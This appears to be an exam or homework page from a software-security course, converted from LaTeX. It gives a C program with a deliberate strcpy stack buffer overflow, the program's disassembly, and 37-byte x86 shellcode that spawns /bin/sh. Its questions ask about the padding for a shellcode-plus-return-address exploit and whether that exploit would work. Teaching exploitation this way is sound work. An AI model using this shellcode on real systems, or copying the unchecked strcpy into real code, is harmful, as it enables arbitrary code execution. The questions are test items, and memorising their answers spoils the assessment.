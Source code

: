 \documentclass{article}[9pt]
\begin{document}
\begin{enumerate}
\begin{verbatim}
void bad(){
  printf("You've been naughty!\n");
}

void good(){
  printf("Go Navy!\n");
}

void vuln(int n, char * str){
  int i = 0;
  char buf[32];
  strcpy(buf,str);
  while( i < n ){
    printf("%d %s\n",i++, buf);
  }
}

int main(int argc, char *argv[]){
  vuln(atoi(argv[1]), argv[2]);
  return 0;
}
\end{verbatim}
\begin{verbatim}
0x080484d5  <+0>: push ebp
0x080484d6  <+1>: mov ebp,esp
0x080484d8  <+3>: sub esp,0x48
0x080484db  <+6>: mov DWORD PTR [ebp-0xc],0x0
0x080484e2 <+13>: mov eax,DWORD PTR [ebp+0xc]
0x080484e5 <+16>: mov DWORD PTR [esp+0x4],eax
0x080484e9 <+20>: lea eax,[ebp-0x2c]
0x080484ec <+23>: mov DWORD PTR [esp],eax
0x080484ef <+26>: call 0x8048360 <strcpy@plt>
0x080484f4 <+31>: jmp 0x8048516 <vuln+65>
0x080484f6 <+33>: mov eax,DWORD PTR [ebp-0xc]
0x080484f9 <+36>: lea edx,[eax+0x1]
0x080484fc <+39>: mov DWORD PTR [ebp-0xc],edx
0x080484ff <+42>: lea edx,[ebp-0x2c]
0x08048502 <+45>: mov DWORD PTR [esp+0x8],edx
0x08048506 <+49>: mov DWORD PTR [esp+0x4],eax
0x0804850a <+53>: mov DWORD PTR [esp],0x804860e
0x08048511 <+60>: call 0x8048350 <printf@plt>
0x08048516 <+65>: mov eax,DWORD PTR [ebp-0xc]
0x08048519 <+68>: cmp eax,DWORD PTR [ebp+0x8]
0x0804851c <+71>: jl 0x80484f6 <vuln+33>
0x0804851e <+73>: leave
0x0804851f <+74>: ret 
\end{verbatim}

And, assume you had the following shell code of the following size
\begin{verbatim}
$ ./hexify.sh shell
\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\x89\xe1\x89\xf3\xb0\x0b\xcd\x80\x31\xdb\x31\
xc0\xb0\x01\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
$ $(printf `./hexify.sh shell`) | wc –c
37
\end{verbatim}

\begin{itemize}
\item If you were to explot the program using the following method,
how many bytes of padding would you need? \textbf{Explain.}

\begin{verbatim}
                .-------------------------.
                |                         |
                v                         |
./vulnerable 5 <shell-code><padding><address-of-buf>
\end{verbatim}

\item With the right padding, will the above method work? Explain
why or why not.


\end{itemize}
\end{enumerate}
\end{document}
